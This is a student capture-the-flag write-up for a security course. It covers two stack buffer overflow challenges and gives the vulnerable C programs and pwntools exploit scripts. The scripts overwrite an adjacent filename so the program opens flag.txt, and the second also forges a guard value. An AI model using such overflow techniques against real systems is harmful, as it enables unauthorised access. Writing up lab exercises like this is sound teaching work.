


# FSI-CTFS: Week #5

**Goal:** Come up with an exploit to cause a buffer overflow on the program running in the server.

### **First Challenge**

#### **Checksec**

- Architecture is x86
- No cannaries in the stack
- Stack has execute permissions (NX -no execute- disabled)
- No address randomization
- Regions in the memory with RWX permissions


#### **Program analysis**

- No check for overflows
- File opened is saved in an array which is exactly above buffer
- Buffer value is read from input
- Flag is saved in another file called flag.txt

**Program**

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char buffer[20];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%28s", &buffer);

    printf("Echo %s\n", buffer);

    printf("I like what you got!\n");

    FILE *fd = fopen(meme_file,"r");

    while(1){
        if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
            printf("%s", buffer);
        } else {
            break;
        }
    }


    fflush(stdout);

    return 0;
}
```

#### **Attack**

- Cause a buffer overflow on 'buffer' by writing more than 20 bytes
- After 20 bytes/chars, write the name of file you want to be open (flag.txt)
- By editing the given python script, we can achieve our goal as shown below


**Python Scipt**

``` python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"1234567890123456789\0flag.txt")
r.interactive()
``` 



### **Second Challenge**


#### **Checksec**

> Checksec gives the same information as the program in the first challenge

#### **Program analysis**

- The program implemented a minor defense. The new version has another buffer in between the buffer we overflow and the target one
- The value of this one is checked to see if it was adulterated

**Program**

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char val[4] = "\xef\xbe\xad\xde";
    char buffer[20];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    if(*(int*)val == 0xfefc2223) {
        printf("I like what you got!\n");
        
        FILE *fd = fopen(meme_file,"r");
        
        while(1){
            if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    } else {
        printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
    }

    fflush(stdout);
    
    return 0;
}
```

#### **Attack**
- To bypass this all we need to do is write the correct sequence of characters in this buffer, which we did by editing the python exploit once again

**Python Scipt**

``` python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

string = bytearray(b"12345678901234567890")
string.append(0x23)
string.append(0x22)
string.append(0xfc)
string.append(0xfe)
string.extend(b"flag.txt")

r.recvuntil(b":")
r.sendline(string)
r.interactive()
```

> And obtained our second desired flag!

